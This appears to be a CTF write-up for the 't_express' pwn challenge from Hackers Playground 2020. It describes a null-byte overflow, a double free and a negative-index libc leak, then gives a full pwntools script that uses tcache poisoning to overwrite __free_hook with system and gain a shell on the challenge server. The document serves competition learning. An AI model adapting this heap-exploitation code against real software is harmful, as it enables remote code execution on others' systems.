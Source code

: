 # Samsung-ctf

## t_express

I played Hackers Playground-2020 with team warlockrootx, and solved one pwn challenge. The challenges were well organized. 

There were three bugs.
1. When reading firstname and lastname. There is Null byte overflow into the `ticket_type` member of the structure.
2. When we free the pass. The program doesn't initialize the varialble which leads to double free.
3. When viewing the chunk. The `index` variable is signed int. And we can give negative index to leak libc from the libc pointers on bss.

exploit->
1. Negative index to leak the libc address.
2. Free the 0x41 sized chunk.
3. Use Null byte overflow. After we can change the size of the freed 0x41 size to 0x21.
4. Free the chunk again.
5. Tcache-posion. `__free_hook` -> `system`.
6. Shell
```
#### Exploit.
```python
#!/usr/bin/env python3
from pwn import *
"""
typedef struct pass {
    char firstname[8];
    char lastname[8];
    long int ticket_type;
    int meal_type;
    int safari_pass;
    long int giftshop_coupon;
    long int ridecount;
}PASS;
"""
####Utils
def buyticket(choice,firstname,lastname):
    io.sendlineafter("choice: ","1")
    io.sendlineafter("(1/2):",str(choice))
    io.sendafter("First name: ",firstname)
    io.sendafter("Last name: ",lastname)

def viewticket(idx):
    io.sendlineafter("choice: ","2")
    io.sendafter("ticket: ",str(idx))
    io.recvuntil("|name |")
    firstname = io.recvn(0x9)
    lastname = io.recvn(0x8)
    return [firstname,lastname]

def useticket(idx,choice=1,ttype=1):
    io.sendlineafter("choice: ","3")
    io.sendafter("ticket: ",str(idx))
    if ttype==0:
        io.sendlineafter("(1/2/3/4): ",str(choice))

####Addr
leak_offset = 0x1ec723
free_hook = 0x1eeb28
system = 0x55410

####Exploit
#io = process("./t")#,env={"LD_PRELOAD":"./libc.so.6"})
io = remote("t-express.sstf.site",1337)
buyticket(1,"/bin/sh\x00","HKHKHKH") #0
buyticket(2,"HKHK","HKHK") #1
buyticket(1,"HKHK","HKHKHKHK")#2
buyticket(2,"HKHK","HKHK") #3
for i in range(3):
    useticket(1,choice=1,ttype=0)
useticket(1,choice=2,ttype=0)
useticket(1,choice=3,ttype=0)
for i in range(3):
    useticket(3,ttype=0)
useticket(3,choice=2,ttype=0)
useticket(3,choice=3,ttype=0)
libc_leak = u64(viewticket(-8)[1][0x2:0x8]+b"\x00\x00")
libc_base = libc_leak-leak_offset
print("Libc base: 0x%x"%libc_base)
for i in range(0x20):
    useticket(2,ttype=0)
useticket(3,choice=4,ttype=0)
buyticket(1,p64(libc_base+free_hook),"HKHK") #4
buyticket(2,"HKHK","HKHK") #5
buyticket(2,p64(libc_base+system),"\x00") #6
useticket(0)
io.interactive()
```
